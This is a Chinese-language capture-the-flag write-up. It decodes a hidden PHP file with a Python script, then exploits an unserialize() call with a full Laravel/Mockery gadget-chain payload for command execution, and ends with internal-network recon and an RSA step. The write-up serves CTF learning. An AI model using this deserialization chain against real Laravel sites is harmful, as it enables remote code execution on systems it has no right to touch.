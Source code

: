 ## warmup
先看robots.txt可以看到一小段加密程序  
![](/img/1.png)
访问u_c4nNot_s3e_me能拿下一份二进制文件，逆向简单加密算法就能拿到源码了  
```python
with open("u_c4nNot_s3e_me","rb") as f:
	a = f.read()
	l = len(a)
	a = map(ord,a)
	for i in range(l-1,0,-1):
		a[i-1] = a[i-1]^a[i]
	code = ''
	for i in range(l):
		num = (a[i]-i) % 128
		code += chr(num)
print code
```
解密以后就是这部分源码  
```php
<?php public function index(){ echo 'Welcome to Hacker World !'; if (isset($_GET['z'])){$z = $_GET['z']; unserialize($z);}}
```
然后就是框架的反序列化利用了，exp如下  
```php
<?php

namespace Illuminate\Broadcasting{
    class PendingBroadcast{
        protected $event;
        protected $events;
        function __construct($event, $events)
        {
            $this->event = $event;
            $this->events = $events;
        }
    }
}

namespace Illuminate\Bus{
    class Dispatcher{
        protected $queueResolver;
        function __construct($queueResolver)
        {
            $this->queueResolver = $queueResolver;
        }
    }
}

namespace Illuminate\Broadcasting{
    class BroadcastEvent{
        protected $connection;
        function __construct($connection)
        {
            $this->connection = $connection;
        }
    }
}

namespace Mockery\Loader{
    class EvalLoader{
        public function load(MockDefinition $definition)
        {}
    }
}

namespace Mockery\Generator{
    class MockDefinition{
        protected $config;
        protected $code;
        function __construct($config)
        {
            $this->config = $config;
        }
    }
    class MockConfiguration{
        protected $name;
        function __construct()
        {
            $this->name = "abcd";
        }
    }
}

namespace {
    $EvalLoader = new Mockery\Loader\EvalLoader();
    $queueResolver = [$EvalLoader,"load"];
    $MockConfiguration = new Mockery\Generator\MockConfiguration();
    $MockDefinition = new Mockery\Generator\MockDefinition($MockConfiguration);
    $BroadcastEvent = new Illuminate\Broadcasting\BroadcastEvent($MockDefinition);
    $Dispatcher = new Illuminate\Bus\Dispatcher($queueResolver);
    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($BroadcastEvent, $Dispatcher);
    echo urlencode(serialize($PendingBroadcast));
}
```
![](./img/2.png)
可以执行命令，读一下flag  
![](./img/3.png)
然后发现是fake_flag...  
估计是要看下内网，ip a看下网络
![](./img/4.png)
有个192.168.0.3/20，看下80服务能找到  
![](./img/5.png)
然后就是做简单rsa题就出flag了  
key是227104485496386719944837215776122348051  
![](./img/6.png)
